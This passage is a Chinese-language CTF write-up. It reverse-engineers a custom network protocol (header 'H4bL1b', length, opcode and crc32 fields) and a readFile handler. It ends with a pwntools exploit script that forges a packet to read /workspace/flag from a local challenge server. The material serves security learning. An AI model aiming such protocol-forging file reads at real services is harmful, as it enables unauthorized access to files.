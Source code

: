 ```c
        v1 = 0;
      }
```

需要注意的是，这里多处使用strcpy函数来复制消息，如果我们发送的消息里有`\x00`字节，则`\x00`后面的消息不会被复制

先判断 s[6]、s[7]处组成宽字节代表的整数 是否大于0x1000，从下面的出错信息可以猜测这里应该是消息体的长度，然后验证接收的数据开始6个字节是不是"H4bL1b"，再进行crc32的验证，通过验证则进入send_loop函数，参数为消息体和 s[8]、s[9]组成的宽字节代表的整数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gku8wdqwaqj31gu0u0765.jpg)

有两个分支，show函数用于发送一些字符串，重点操作在getAction函数中

![](https://tva1.sinaimg.cn/large/0081Kckwly1gku8y8rvuuj31go0u0ad6.jpg)

这里有三个功能，readFile功能会执行dump_apmib_conf函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwyu9gpvj31c40u0tfb.jpg)

也就是对输入的路径过滤后读取路径中的文件

过滤的函数compare_filename

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkux4pf1qcj318m0duad1.jpg)

然后用b64encode函数进行base64编码，用make_send_message发送

也就是说如果可以通过crc32的检查的话，就可以直接读取flag

先用`0xffffffff`填充crc32的校验码，在gdb调试的时候可以看到crc32函数的返回值

> gdb调试多进程：
>
> 查看当前所有线程
>
>  `i threads`
>
> 切换跟踪线程
>
>  `thread N`(N为gdb中的线程编号)

exp：

```python
from pwn import *
import sys
import base64

context.log_level='debug'

p = remote("0.0.0.0",6780)

header = b"H4bL1b"
l = b'\x01\x01'
op = b'\x01\x02'

crc32 = 0x5f6a802d #0xffffffff #get it in debug

crc = b'\x5f\x6a\x80\x2d'

pd = header + l + op + crc + b"readFile:/workspace/flag"
p.send(pd)
s = p.recv()
print(base64.decodestring(s))
p.interactive()
```

